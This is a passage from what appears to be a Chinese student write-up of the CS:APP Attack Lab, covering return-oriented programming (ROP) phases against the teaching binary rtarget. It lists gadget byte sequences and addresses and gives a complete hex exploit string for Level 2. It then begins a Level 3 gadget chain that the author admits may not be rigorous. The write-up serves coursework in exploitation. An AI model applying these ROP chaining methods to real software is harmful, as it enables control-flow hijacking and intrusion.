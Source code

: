 前面3个字节不要（即`c7 07 d4`），从第四个字节开始作为一个gadget。`48 89 c7`是`movq %rax, %rdi`的机器码，通过截取原有指令编码可以让攻击者完成更多攻击行为（酷炫啊(p≧w≦q)）。

Part 2 Level 2要完成的任务和Part 1 Level 2是一样的，只是需要用ROP解决。需要做的事还是那么两件：

- 把`%rdi`值设为`cookie`值，即`0x59b997fa`。
- 跳转到`touch2`函数，地址为`0x4017ec`。

一开始我的设想是让`getbuf`栈溢出，覆盖返回地址为某个包含有

```assembly
popq %rdi
retq
```

编码的地方。把`cookie`值写入栈上返回地址后面，通过`popq`操作将其弹入`%rdi`中。但是在`farm.c`部分没有找到`popq %rdi`对应的编码`0x5f`，只能先`popq`到另一个寄存器，再将寄存器值移入`%rdi`中。经过查找，我发现`addval_219`处有一段`58 90 c3`，翻译过来就是

```assembly
popq %rax
nop
retq
```

同时，在`addval_273`上有另一个段编码`48 89 c7 c3`，即

```assembly
movq %rax, %rdi
retq
```

刚好让`%rdi`被间接赋值为`cookie`值。因此，输入的字符串应为：

```assembly
# 填充buf，40个字符
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
# 跳转到addval_219的58 90 c3部分
ab 19 40 00 00 00 00 00
# cookie值，供popq
fa 97 b9 59 00 00 00 00
# 跳转到addval_273的48 89 c7 c3部分
a2 19 40 00 00 00 00 00
# 跳转到touch2
ec 17 40 00 00 00 00 00
```

### Level 3

这题看得我眼花……`sval`和Part 1 Level 3一样，需要保存在所有返回地址的后面。由于`rtarget`每次运行的栈地址不固定，所以只能取当前`%rsp`值，然后根据输入字符串的长度，计算`sval`存放的位置。在`farm.c`里面有一个`add_xy`函数，可以将`%rdi`和`%rsi`加起来，结果保存在`%rax`里。这个函数可以用来计算`sval`位置。在那之前，我们需要将`%rdi`和`%rsi`分别赋值为`%rsp`值和偏移值。偏移值只有在知道了整个输入字符串以后才能知道，所以先不管……

首先我们把`%rdi`设为`%rsp`值，即当前栈顶位置。在`40 1a 06`位置有一串`movq %rsp, %rax`，在`40 19 a2`位置有一串`movq %rax, %rdi`。通过这两个指令，间接地完成赋值。然后是给`%rsi`赋值。先假设偏移值为`x`吧。

偏移值我们可以通过`popq`输入。在`40 19 ab`处有一段`popq %rax`，我们可以把偏移值计算好后放到`40 19 ab`后边，完成偏移值的输入。然后在`40 19 dd`处有一段`movl %eax, %edx`，在`40 1a 34`处有一段`movl %edx, %ecx`，在`40 1a 13`处有一段`movl %ecx, %esi`，非常艰难地将`%eax`值移到了`%esi`……其实在进行这些赋值时我是非常纠结的。因为只是给`%esi`赋了值，`%rsi`的高32位并没有赋值，值不确定。但是前面提到的加法操作是用了这个64位的`%rsi`……所以可能会发生一些意想不到的事。不过我运气好，或者因为其他我不知道的原因，我没有碰到高32位和实际不同的情况。但这不意味着我的做法是严谨的。如果我能想出其他更好的方法，我也不会这么做的……
